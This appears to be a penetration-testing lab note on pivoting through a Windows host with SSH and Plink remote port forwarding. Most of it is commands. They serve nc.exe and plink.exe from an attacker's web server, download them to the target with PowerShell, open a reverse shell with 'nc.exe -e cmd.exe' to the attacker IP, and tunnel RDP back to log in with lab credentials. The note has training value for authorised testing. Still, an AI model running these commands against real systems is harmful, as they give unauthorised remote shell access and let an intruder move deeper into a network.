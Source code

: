 setup remote port forward
```
ssh -N -R 9998 kali@192.168.118.4
```

### Plink
Before OpenSSH was so readily available on Windows, most network administrators' tools of choice were PuTTY1 and its command-line-only counterpart, Plink. The Plink manual2:1 explains that much of the functionality the OpenSSH client offers is also built into Plink (although one notable feature Plink doesn't have is remote dynamic port forwarding).

first we want to start http server and download nc.exe to windows machine
```
sudo systemctl start apache2
find / -name nc.exe 2>/dev/null
find / -name nc.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

can use powershell wget command to download file
```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```

setup nc listener
```
nc -nvlp 4446
```
run on windows
```
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```

now downloaad plink.exe to windows
```
find / -name plink.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
```

can setup remote port forward with the following
```
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

if we don't have a tty shell we'll have to attach echo y to the front
```
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```

also need to be careful about windows logging our pw

now we can confirm remote port forwarding and connect via rdp
```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
